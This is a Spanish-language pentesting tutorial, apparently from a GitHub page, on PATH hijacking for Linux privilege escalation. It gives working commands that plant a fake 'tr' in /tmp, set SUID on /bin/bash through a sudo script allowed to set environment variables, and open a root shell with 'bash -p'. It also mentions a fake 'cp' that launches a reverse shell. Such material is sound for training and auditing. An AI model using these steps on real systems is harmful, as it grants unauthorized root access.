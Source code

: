 <h1 align="center">Path Hijacking**</h1>

## **DEFINICIÓN:**

El Path Hijacking (Secuestro de Ruta) es una técnica de ataque donde un atacante manipula la variable de entorno PATH para ejecutar programas maliciosos en lugar de los programas legítimos.

## **FUNCIONAMIENTO**

- El atacante modifica la variable PATH para incluir directorios bajo su control al principio de la lista.

## **Localizar un script que ejecute un comando con la ruta relativa**

Ejemplo:

- cat script.sh

cp /home/\* /copia-home

## **Manipular la variable $PATH**

- echo PATH=/tmp:$PATH

## **Crear el comando cp**

- cd /tmp
- nano cp
- /bin/bash -c “reverse shell”

## **EXPLICACIÓN**

Cuando se ejecute el comando cp del script, en el primer lugar que buscará el comando cp es en /tmp por lo que se ejecutará una reverse shell. Si este script lo ejecuta root tendremos una reverse shell como root.

## **Ejemplo de convertir el bash en suid con path hijacking**

### **Manual de Escalada de Privilegios: Shell como Root**

#### **Descripción**

En este manual, se explicará cómo escalar privilegios a root utilizando un script que puede ser ejecutado con sudo sin necesidad de contraseña (NOPASSWD) y con la capacidad de modificar variables de entorno (SETENV). Aprovecharemos la presencia de rutas relativas en el script para realizar un ataque conocido como **Path Hijacking**.

### **Enumeración Básica del Sistema**

**Verificación de Permisos con sudo**: Ejecuta el siguiente comando para ver los permisos del usuario gh0st:

- sudo -l

Deberías ver una salida similar a la siguiente:  

(ALL : ALL) SETENV: NOPASSWD: /opt/security.sh

### **Análisis del Script**

1. **Analizar el Contenido del Script /opt/security.sh**: Revisa el script para identificar comandos que se ejecutan con rutas relativas. Esto es crucial para planificar el ataque de Path Hijackingm, EL SCRIPT CONTIENE EL COMANDO TR Y SE NOMBRA DE FORMA RELATIVA.

### **Ataque de Path Hijacking**

**Preparar el Entorno**: Nos movemos a un directorio donde tengamos permisos de escritura, como /tmp:  
cd /tmp

**Crear un Script Malicioso**: Creamos un script llamado tr, que reemplazará al comando tr original y asignará permisos SUID al binario bash:  
<br/>echo '#!/bin/bash' > tr

echo 'chmod +s /bin/bash' >> tr

chmod +x tr

**Modificar la Variable PATH**: Ajustamos la variable PATH para que incluya el directorio /tmp antes de las rutas habituales:  
<br/>echo $PATH

\# Verifica la ruta actual, debería mostrar algo como:

\# /usr/local/bin:/usr/bin:/bin:/usr/games

PATH=/tmp:$PATH

echo $PATH

\# Verifica que ahora la ruta incluye /tmp al principio:

\# /tmp:/usr/local/bin:/usr/bin:/bin:/usr/games

**Ejecutar el Script con Path Hijacking**: Ejecutamos el script security.sh especificando la variable de entorno PATH modificada:  
<br/>sudo -u 'root' PATH=/tmp:$PATH /opt/security.sh

1. El script se ejecutará y utilizará nuestro script tr en lugar del comando tr original, activando el bit SUID en bash.

### **Verificar y Escalar Privilegios**

**Verificar Permisos del Binario bash**: Verifica que el bit SUID del binario bash está activo:  
<br/>ls -la /bin/bash

Deberías ver una salida similar a esta, indicando que el bit SUID está activo:  
<br/>\-rwsr-sr-x 1 root root 1234376 Mar 27 2022 /bin/bash

**Obtener una Shell con Privilegios de Root**: Ahora puedes ejecutar bash con privilegios de root:  
<br/>bash -p

**Verificar Usuario**: Comprueba que tienes privilegios de root:  
<br/>whoami

\# Debería devolver:

\# root

